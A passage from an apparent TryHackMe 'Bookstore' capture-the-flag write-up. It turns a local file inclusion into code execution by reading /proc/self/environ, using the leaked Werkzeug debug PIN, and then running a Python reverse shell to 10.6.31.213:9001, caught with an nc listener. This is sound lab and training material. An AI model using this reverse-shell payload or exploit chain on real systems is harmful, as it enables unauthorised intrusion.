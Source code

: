 ## LFI to RCE
There are few files that I like to check whether  we have read permsisions or not to get code execution. Few of the files are

-    /var/log/apache/access.log
-    /var/log/apache/error.log
-    /var/log/vsftpd.log
-    /var/log/sshd.log
-    /var/log/mail
-    /proc/self/environ
-    /proc/self/fd

And it turned out we can access /proc/self/environ.

```console
LANG=en_US.UTF-8OLDPWD=/home/sidPWD=/home/sidHOME=/home/sidWERKZEUG_DEBUG_PIN=123-321-135SHELL=/bin/shSHLVL=1LOGNAME=sidPATH=/usr/bin:/bin_=/usr/bin/python3WERKZEUG_SERVER_FD=3WERKZEUG_RUN_MAIN=true
```
And here we  find the debug pin for the console which means we can log in the debug console and execute arbitary commands on the box using python.

## Shell as user sid
![5](/assets/images/thm/bookstore/5.png)
Now that we can execute code as Sid, lets try and get a reverse shell.

I used the python reverse shell payload to get a shell.
```py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.6.31.213",9001));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
And we get a shell back.
```console
local@local:~/Documents/tryhackme/bookstore$ nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.192.216 44652
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(sid) gid=1000(sid) groups=1000(sid)
```

